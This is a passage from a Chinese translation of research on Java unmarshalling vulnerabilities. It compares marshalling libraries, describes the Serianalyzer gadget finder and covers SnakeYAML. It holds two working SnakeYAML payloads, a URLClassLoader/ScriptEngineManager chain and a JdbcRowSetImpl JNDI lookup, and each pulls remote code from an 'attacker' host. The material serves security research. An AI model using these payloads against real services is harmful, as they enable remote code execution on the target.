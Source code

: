 Jackson 是一个通常遵循实际属性的实现例子。然而，他的多态unmarshalling 支持一种操作任意类型的模式。

没有这种风险行为的明显例外：

- JAXB 需要所有的类型都已注册
- 需要已定义模式或编译的机制(例如XmlBeans、Jibx、Protobuf)
- GSON 需要一个特点root类型，遵循属性类型，多态机制需要提前注册
- GWT-RPC 提供了类型信息，但自动构建了白名单。

## 2 工具

大多数gadget搜索都是[Serianalyzer](https://github.com/mbechler/serianalyzer/)的一点点增强版完成的。Serianalyzer,起初开发用于Java 反序列化分析，是一个静态字节码分析器，从一组初始方法出发，追踪各类原生方法潜在的可达路径。调整这些起始方法以匹配unmarshalling中可以完成的交互（可能寻找绕过可序列化的类型检查，以及针对Java序列化进行启发式调整），这也可以用于其他机制。

## 3 Marshalling 组件库

这里描述了各式 Marshalling 机制，对比了他们之间的相互影响以及unmarshall执行的各种检查。最基本的差别是他们如何设定对象的值，因此下面将区分使用Bean属性访问的机制和只使用直接字段访问的机制。

### 3.1 基于Bean 属性的 marshallers

基于Bean 属性的 marshallers 或多或少都遵守类型的API来阻止一个攻击者任意修改对象的状态，并且能重建的对象图比基于字段的marshallers重建少。但是，它们调用了setter方法，导致在unmarshalling时可能触发更多的代码。

#### 3.1.1 SnakeYAML

SnakeYAML 只允许公有构造函数和公有属性。它不需要相应的getter方法。它有一个允许通过攻击者提供的数据调用任意构造函数的特性。这使得攻击 ScriptEngine（甚至也可能影响更多，这是一个令人难以置信的攻击面）成为可能。

```java
!! javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader  [[
        !!java.net.URL ["http :// attacker /"]
    ]]
]
```

通过 JdbcRowset 仅用属性访问也能实现攻击

```java
!!com.sun.rowset.JdbcRowSetImpl
    dataSourceName: ldap :// attacker/obj
    autoCommit: true
```

SnakeYAML 指定一个特定实际使用的root类型，然而并不检查嵌套的类型。

- References
  > cve-2016-9606  Resteasy

  > CVE-2017-3159  Apache Camel

  > CVE-2016-8744  Apache Brooklyn

- 可用的payloads
